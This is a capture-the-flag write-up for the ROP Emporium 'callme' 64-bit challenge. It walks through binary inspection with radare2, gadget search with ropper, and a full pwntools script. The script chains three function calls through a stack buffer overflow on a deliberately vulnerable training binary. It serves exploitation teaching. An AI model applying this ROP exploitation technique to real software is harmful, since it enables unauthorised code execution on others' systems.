



ROPEmporium: 2-Callme (64-bit)
Continuing the ROP Series with Callme, this time going through Calling conventions
Now if you haven’t caught on, this is a series! I went through a bit about calling parameters in the previous post 1-Split, and in this post we’ll dig into it a bit more and make 3 consecutive calls with 3 specific parameters.
Description
You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme_ functions in the above order and with the correct arguments.
Setup
As usual lets download the correct archive and unzip it.
root@linux:~/split# wget https://ropemporium.com/binary/callme.zip
root@linux:~/split# unzip callme.zip
root@linux:~/split# ls
callme callme.zip encrypted_flag.txt key1.dat key2.dat libcallme.so
root@linux:~/split# file callme
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=00e98079187631025159f040444e55bed3edcf1c, not stripped
root@linux:~/split# file libcallme.so
libcallme.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=4596d32e684288a4c3c8d3daf98fe6f42ffc4454, not stripped
Still not stripped, but we do get a bit more files, key1.dat, key2.dat, encrypted_flag.txt and libcallme.so. Again lets see what the callme binary wants for input data by executing it.
callme by ROP Emporium
64bits
Hope you read the instructions...
> inputdata
Exiting
So according the instructions, to print the flag the ROP chain need to make the following function calls in the specific order.
+-------------------------------------------------------------+
| callme_one(1,2,3) + callme_two(1,2,3) + callme_three(1,2,3) |
+-------------------------------------------------------------+
So again, lets create the exploit template with pwntools, and add the 40-byte junk and payload definition. The 40-byte junk will be a constant in this series and for the ROPEmporium challenges. Although if you feel uncertain on how you identify the length of the buffer overflow, go back to 0-ret2win as it will be the same procedure for this as well.
Radare2 Reversing
Now the description of the challenge claims that there should be little to no reversing at all, but for good practice lets have a look anyway.
root@Valkyrie:~/Documents/courses/ropemporium/2-callme# rabin2 -I callme
arch x86
baddr 0x400000
binsz 11375
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath ./
sanitiz false
static false
stripped false
subsys linux
va true
Opening the binary up in radare2 and looking for the callme functions confirms that they are there, and with the symbols intact.

That means we can use the pwntools symbols trick and in the exploit use exe.symbols.callme_one instead of direct memory addresses, making it a bit more readable.
Finding gadgets
Going back onto the precious blogpost where we exploited 1-split and the x64_cheatsheet, we know that we need to put:
- 0x1 in the RDI register (First parameter)
- 0x2 in the RSI register (Second parameter)
- 0x3 in the RDX register (Third Parameter)
So the first thing is to use ropper to list all the pop gadgets, as the call pop is used to put the address on top of the stack into the destination register

Conveniently on the address 0x00401ab0 there is a pop rdi; pop rsi; pop rdx; ret;.
Final Exploit
#Author: Christoffer.Claesson@Securitybits.io
#Blog: https://blog.securitybits.io/2019/08/17/ropemporium-2-callme-64-bit/
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
exe = context.binary = ELF('callme')
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)
def local(argv=[], *a, **kw):
'''Execute the target binary locally'''
if args.GDB:
return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
else:
return process([exe.path] + argv, *a, **kw)
def remote(argv=[], *a, **kw):
'''Connect to the process on the remote host'''
io = connect(host, port)
if args.GDB:
gdb.attach(io, gdbscript=gdbscript)
return io
def start(argv=[], *a, **kw):
'''Start the exploit against the target.'''
if args.LOCAL:
return local(argv, *a, **kw)
else:
return remote(argv, *a, **kw)
gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())
#Additionally, %rdi, %rsi, %rdx, %rcx, %r8, and %r9 are used to pass the first six integer or pointer parameters to called functions
#call callme_one(1,2,3)
#call callme_two(1,2,3)
#call callme_three(1,2,3)
junk = "A"*40
pop_rdi_rsi_rdx = p64(0x00401ab0) #0x00401ab0: pop rdi; pop rsi; pop rdx; ret;
one = p64(0x1)
two = p64(0x2)
three = p64(0x3)
parameters = pop_rdi_rsi_rdx + one + two + three
# -- Exploit goes here --
payload = ""
payload += junk
payload += parameters + p64(exe.symbols.callme_one)
payload += parameters + p64(exe.symbols.callme_two)
payload += parameters + p64(exe.symbols.callme_three)
io = start()
io.recvuntil('> ')
io.sendline(payload)
log.success('Flag: ' + io.recv(512))
